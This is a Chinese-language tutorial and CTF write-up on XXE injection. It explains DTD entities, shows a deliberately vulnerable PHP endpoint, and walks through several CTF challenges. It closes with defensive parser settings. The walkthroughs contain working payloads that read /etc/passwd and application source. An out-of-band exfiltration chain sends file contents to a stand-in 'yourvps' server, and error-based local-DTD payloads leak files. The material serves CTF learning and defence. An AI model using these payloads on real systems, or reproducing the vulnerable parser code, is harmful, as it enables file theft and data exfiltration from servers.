


XXE在现在比赛中出现的比较少，所以不是很熟练，趁着最近赶紧恶补一下XXE
什么是XXE XXE：XML External Entity 即XML外部实体注入攻击 。是由于程序在解析输入的XML数据时，解析了攻击者伪造的外部实体 ，通过外部实体SYSTEM 请求本地文件uri，通过某种方式返回本地的文件内容，导致了XXE漏洞。漏洞形成的标志性函数：例如PHP 中的simplexml_load_string或者simplexml_load_file，默认情况下都会解析外部实体。
XML实体 XML的基本语法与html很类似，与html的区别只在于XML主要用来传输 和存储 数据，而HTML则是用来显示 数据
要了解XXE，主要关注的是xml实体的定义：DTD
DTD的学习具体可以参考：https://www.w3school.com.cn/dtd/dtd_entities.asp
DTD：Document Type Definition 即文档类型定义，用来为XML文档定义语义约束。可以嵌入在XML文档中(内部声明)，也可以独立的放在另外一个单独的文件中(外部引用)。
假如 DTD 被包含在您的 XML 源文件中，它应当通过下面的语法包装在一个 DOCTYPE 声明中：
外部实体与内部实体 xml实体可以分为外部 和内部 实体
内部实体与外部实体的区别，从语法上来看：
1 2 <!ENTITY 实体名称 "实体的值"> //定义内部实体 <!ENTITY 实体名称 SYSTEM "URI/URL"> //定义外部实体
示例：
1 2 3 4 5 6 <?xml version = "1.0" encoding = "utf-8" ?> //xml声明<!DOCTYPE test [ //DTD部分 <!ENTITY test1 "test1"> //内部实体 <!ENTITY test2 SYSTEM "http://example.com/1.dtd"> //外部实体 ]> <test > &test1;&test2;</test > //xml部分
一般实体和参数实体 xml实体还可以分为一般 和参数 实体
（1）一般实体的声明：<!ENTITY 实体名称 "实体内容">
引用一般实体的方法：&实体名词;
一般实体既可以在DTD部分 中引用，也可以在XML部分 中引用
（2）参数实体的声明：<!ENTITY % 实体名称 "实体内容">
引用参数实体的方法：%实体名称;
参数实体只能 在DTD部分 中引用
示例：
1 2 3 4 5 6 7 <?xml version = "1.0" encoding = "utf-8" ?> //xml声明<!DOCTYPE test [ //DTD部分 <!ENTITY test1 "test1"> //一般实体 <!ENTITY % test2 SYSTEM "file:///etc/passwd"> //参数实体 %test2; //引用参数实体 ]> <test > &test1;</test > //xml部分
另外参数实体还能嵌套定义，但是要注意内层定义的参数实体%需要进行HTML转义 ，否则会出现解析错误
1 2 3 4 <?xml version="1.0"?> <!DOCTYPE a[ <!ENTITY % para '<!ENTITY % files SYSTEM "file:///etc/passwd">'> ]>
XXE利用 漏洞利用的简单靶机在线环境：https://www.vulnspy.com/phpaudit-xxe/
有回显的xxe 首先准备一个简单的具有XXE漏洞的php文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php libxml_disable_entity_loader(false ); $data = isset ($_POST['data' ])?trim($_POST['data' ]):'' ; $resp = '' ; if ($data != false ){ $xml = simplexml_load_string($data, 'SimpleXMLElement' , LIBXML_NOENT); ob_start(); var_dump($xml); $resp = ob_get_contents(); ob_end_clean(); echo htmlspecialchars($resp); } ?>
代码很简单，漏洞的触发点就是simplexml_load_string这个函数，他能允许我们通过DTD来定义外部实体
写入payload：
1 2 3 4 5 <?xml version="1.0"?> <!DOCTYPE ANY [ <!ENTITY test SYSTEM "file:///etc/passwd"> ]> <abc > &test;</abc >
简单的定义了一个外部实体test ，通过file 协议来读取服务器端本机的文件
因为服务器端代码：echo htmlspecialchars($resp);，所以执行的结果能回显
无回显的xxe 既然上面的例子是因为echo htmlspecialchars($resp);这句代码所以才有回显，那么把这段代码去掉，就变成了无回显。那么，是不是就不能进行xxe了呢，答案是否定的，虽然靶机没有返回给我们数据，但是我们可以把数据带到我们自己的服务器上。
靶机代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php if (isset ($_GET['s' ])){ show_source(__FILE__ ); exit ; } libxml_disable_entity_loader(false ); $data = isset ($_POST['data' ])?trim($_POST['data' ]):'' ; $resp = '' ; if ($data != false ){ $xml = simplexml_load_string($data, 'SimpleXMLElement' , LIBXML_NOENT); if ($xml && isset ($xml->name)){ $name = $xml->name; } echo isset ($name)?'ok' :'error' ; } ?>
可以看到，现在正常情况下，只会返回给我们ok，即有查询结果，但是不会告诉我们结果是什么
我们传入如下的payload：
1 2 3 4 5 6 7 8 <?xml version="1.0"?> <!DOCTYPE a [ <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> <!ENTITY % dtd SYSTEM "http://yourvps/evil.xml"> %dtd; %send; ]> <abc > </abc >
然后在自己的vps上的evil.xml 写入：
1 <!ENTITY % payload "<!ENTITY % send SYSTEM 'http://yourvps/?content=%file;'>"> %payload;
注意，因为这里是参数实体payload 来嵌套定义 参数实体send ，所以被嵌套定义 的参数实体%一定要HTML编码为：%
如此一来，调用的过程就变成了：参数实体dtd 通过http 协议来访问vps上的evil.xml ，然后返回evil.xml 的内容，调用了参数实体payload ，然后payload 又调用了参数实体send ，send 的作用就是把参数实体file （即文件/etc/passwd 的base64编码内容）发送到我们的vps上
那么为什么不能把<!ENTITY % send SYSTEM 'http://yourvps/?content=%file;'>payload的DTD里呢，这是因为：在内部DTD里，参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则解析器会报错： PEReferences forbidden in internal subset。 所以，参数实体引用%file;必须放在外部文件里 。
但是，如果目标靶机不允许我们访问外网，那么就需要用到另一种方法：利用本地dtd文件重新定义参数实体产生报错从而回显信息。这种方法我们后面结合实际例题来说明。
ctf例题 api调用 题目地址：http://web.jarvisoj.com:9882/
抓包发现提交的是json数据
那么就很存在xxe，先试着看看能不能解析xml标签
修改头部字段：Content-Type: application/xml，然后任意发送标签<a>123</a>

发现服务器成功解析，说明是有回显的xxe，那么直接发送读取flag文件的payload即可：
1 2 3 4 5 <?xml version = "1.0" encoding = "utf-8" ?> <!DOCTYPE ANY[ <!ENTITY name SYSTEM "file:///home/ctf/flag.txt"> ]> <a > &name;</a >
who_are_you 题目来源：2019 网络与信息安全领域专项赛线上赛
查看源码发现了xml提交的请求
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <script type="text/javascript" > function play ( return false ; } function func ( var xml = '' + '<\?xml version="1.0" encoding="UTF-8"\?>' + '<feedback>' + '<author>' + document .getElementById('name' ).value+ '</author>' + '</feedback>' ; console .log(xml); var xmlhttp = new XMLHttpRequest(); xmlhttp.onreadystatechange = function ( if (xmlhttp.readyState == 4 ) { var res = xmlhttp.responseText; document .getElementById('title' ).textContent = res } }; xmlhttp.open("POST" , "index.php" , true ); xmlhttp.send(xml); return false ; }; </script>
看到xml自然就想到了尝试xxe攻击，
不过要注意这里规定了提交标签的格式要带有：
1 '<feedback>'+'<author>'+document.getElementById('name').value+ '</author>' + '</feedback>';
所以构造payload：
1 2 3 4 5 <?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE author[ <!ENTITY name SYSTEM "file:///etc/passwd"> ]> <feedback > <author > &name;</author > </feedback >
但是尝试了file:///var/www/html/index.php等路径读不到index.php
于是就想到用php伪协议来读源码，就不需要知道绝对路径了
payload如下：
1 2 3 4 5 <?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE author[ <!ENTITY name SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]> <feedback > <author > &name;</author > </feedback >
读完base64解码后发现flag就在源码里面
LookAround 题目来源：2019 ogeek ctf线上赛
查看源码发现有个后台定时发送xml数据
应该是考察xxe
尝试分别读取存在和不存在的文件，发现不存在时有报错信息，存在时没有回显信息
既然有查询到结果却没有回显，说明这题是考察blind xxe
blind xxe思想就是将数据通过外部服务器或者报错信息带出来
首先尝试http 协议，发现访问不了外部服务器，会出现超时的情况
那么只能考虑第二种，利用本地dtd 文件重新定义其内部参数实体引起报错，通过报错信息 带出我们想要的数据
首先就要猜出本地dtd文件的绝对路径
参考：https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation
将里面的所有dtd文件的绝对路径尝试一遍，发现了本题dtd文件路径：
/usr/share/xml/fontconfig/fonts.dtd
重新定义其中的参数实体expr ，然后在该实体中调用一个参数实体eval ，eval 再调用一个参数实体error 通过file 协议访问一个不存在的文件，产生报错信息 。报错信息中就包含了参数实体file 读取我们需要文件的内容，payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 <!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd"> <!ENTITY % expr 'aaa)> <!ENTITY % file SYSTEM "file:///FILE_TO_READ"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///abcxyz/%file;'>"> %eval; %error; <!ELEMENT aa (bb'> %local_dtd; ]> <message > </message >
flag就在报错信息中
[GoogleCTF2019 Quals]Bnv 复现地址：https://buuoj.cn
在源码的post.js 中发现了xml请求代码：
1 2 3 4 var url = '/api/search'; xhr = new XMLHttpRequest(); xhr.open('POST', url, true); xhr.setRequestHeader('Content-type', 'application/json');
抓包仍然是提交一个json数据，
老办法，先修改头部字段Content-Type: application/xml，然后试着通过DTD去声明一个message 元素：
1 2 3 4 5 <?xml version = "1.0" encoding = "utf-8" ?> <!DOCTYPE message[ <!ELEMENT message ANY > ]> <message > 135601360123502401401250</message >
如果未声明message 元素的话，服务器会返回：No declaration for element message 的报错信息
成功返回查询结果
然后尝试读取文件：
1 2 3 4 5 6 <?xml version = "1.0" encoding = "utf-8" ?> <!DOCTYPE message[ <!ELEMENT message ANY > <!ENTITY name SYSTEM "file:///etc/passwd"> ]> <message>&name;</message>

同样，我们读取一个不存在的文件时：
出现了报错信息，说明这是一个没有回显 的xxe，并且同样禁用了http 协议
那么，我们就要尝试去寻找本地dtd文件：
本题目存在ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd文件，docbookx.dtd文件具有ISOamso 实体，我们可以重新定义它，触发错误信息
传入payload：
1 2 3 4 5 6 7 8 9 10 11 <?xml version="1.0"?> <!DOCTYPE a[ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'test%file;'>"> %eval; %error; '> %local_dtd; ]>
最后读取flag：
XXE防御
1 2 3 4 5 6 7 8 9 10 PHP： libxml_disable_entity_loader(true); JAVA: DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance(); dbf.setExpandEntityReferences(false); Python： from lxml import etree xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
过滤用户提交的XML数据关键词：<!DOCTYPE和<!ENTITY,或者,SYSTEM和PUBLIC
参考 XXE(XML External Entity attack)XML外部实体注入攻击
Blind-XXE与Google CTF 2019-BNV
未知攻焉知防——XXE漏洞攻防